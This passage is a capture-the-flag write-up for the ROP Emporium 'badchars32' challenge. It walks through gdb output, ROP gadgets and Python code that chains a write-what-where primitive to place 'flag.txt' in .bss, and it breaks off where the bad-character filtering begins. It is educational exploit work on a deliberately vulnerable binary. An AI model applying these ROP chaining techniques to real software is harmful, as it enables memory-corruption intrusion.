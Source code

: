 # badchars32 writeup
This challenge is similar to write4, but with an added wrinkle. As in write4, we need to find gadgets that give us a write-what-where (arbitrary write primitive), but unlike write4, this challenge will modify the characters `['x', 'g', 'a', '.']` if we pass them as part of our payload. This is very conviently designed, of course, to prevent us from easily writing "flag.txt" into memory.

## The goal
As with write4, our target binary has a PLT stub entry for the `print_file` function which is imported from our companion shared object file (`libbadchars32.so` in this case).

```
# gdb badchars32
GNU gdb (Debian 16.2-8) 16.2
...
(gdb) info functions

Non-debugging symbols:
0x0804837c  _init
0x080483b0  pwnme@plt
0x080483c0  __libc_start_main@plt
0x080483d0  print_file@plt
```

Our goal will be to call the `print_file` function (address `0x080483d0`) with the argument `flag.txt`. To do this, we will need to write the string `flag.txt` into memory, which requires:
  1. An arbitrary write primitive
  2. A way to evade the aforementioned "badchars" filtering of 'x', 'g', 'a', and '.'

## Arbitrary write primitive
At the aptly-named `usefulGadgets` symbol address, we find a familiar gadget:

```
# gdb badchars32
GNU gdb (Debian 16.2-8) 16.2
...
(gdb) info functions

Non-debugging symbols:
0x08048543  usefulGadgets

(gdb) disas usefulGadgets
...
   0x0804854f <+12>:    mov    DWORD PTR [edi],esi
   0x08048551 <+14>:    ret
```

This gadget, combined with the ability to control edi and esi, gives us the ability to write the four bytes in esi to the address stored in edi. To control edi and esi, we will need another gadget. I used the pwntools `ROPgadget` utility for this:

```
ROPgadget --binary badchars32 | egrep "pop esi|pop edi"
...
0x080485b9 : pop esi ; pop edi ; pop ebp ; ret

```
The above gadget will work well; we just need to put an additional 4-byte dummy value in for ebp. I used `0xdeadc0de` for this, and in every place throughout my code where I needed a dummy value (shoutout to Stephen Sims!).

Now, chaining our two gadgets together to create the arbitrary write primitive (python):
```python
def write_what_where(data, addr):
    if len(data) != 4:
        raise Exception("data length must be 4")

    pop_esi_pop_edi_pop_ebp_ret = b'\xb9\x85\x04\x08'
    mov_dword_ptr_edi_esi       = b'\x4f\x85\x04\x08'
    deadcode = b'\xde\xc0\xad\xde'

    # jump to pop/pop/pop/ret gadget; set up registers for mov call; ret to mov call
    payload = pop_esi_pop_edi_pop_ebp_ret + \
            data + \
            addr + \
            deadcode + \
            mov_dword_ptr_edi_esi
```

The function would then be called like this:
```python
# Choosing 0x0804a050 as my address; more on that in a moment
payload += write_what_where(b'flag', b'\x50\xa0\x04\x08')

```

To write `flag.txt` into memory, we will need to leverage this primitive at least two times. Once to write the first four bytes (`b'flag'`) and once for the second four (`b'.txt'`). I am in the habit of also calling it a third time, to make sure my string is null-terminated (`b'\x00'`) and then I usually write another 3 bytes just for fun, making my third call something like `b'\x00lol'`. Of note, the third call is probably not necessary in my case, as I chose to write data to the `.bss` segment, where almost the whole region of memory is full of null bytes anyways, but I have the third one in there just to be safe.

## Where to write the payload?
Fundamentally, we need a region of memory which is mapped `rw`, which will not break other parts of the code if we overwrite it. A popular place that meets these requirements is the .bss section. In gdb, we can find and confirm this is a valid place to write our data. I use a gdb script to kick off the process, and then look at the mappings after the program is running.
```
#### script.gdb ####

# Breakpoint on shared library load
catch load

# Run until the .so is loaded
# Set a breakpoint on the ret instruction from the pwnme function
run < <(python challenge.py)
break *pwnme+273
####################

gdb ./badchars32 -x script.gdb

(gdb) info proc mappings
...
0x0804a000 0x0804b000 0x1000     0x1000     rw-p  /root/rop-emporium/badchars/badchars32

# Confirming that the .bss section lives in here:
(gdb) maintenance info sections
[22]     0x804a000->0x804a018 at 0x00001000: .got.plt ALLOC LOAD DATA HAS_CONTENTS
[23]     0x804a018->0x804a020 at 0x00001018: .data ALLOC LOAD DATA HAS_CONTENTS
[24]     0x804a020->0x804a024 at 0x00001020: .bss ALLOC
```
It's important to note that although the `.bss` section only shows a range of 4 bytes here, the kernel maps the entire 4096-byte memory page (from `0x0804a000` to `0x0804b000`). This means we have plenty of space to write our `b'flag.txt'` string here. Also, we definitely don't want to overwrite stuff in the .got.plt section to avoid breaking things. I chose the address `0x0804a050` which is just a short way into the unused space in the `.bss` section.

## Running into the badchars filtering
So far, everything we have done is basically the same as the write4 challenge. Here is where it gets interesting.


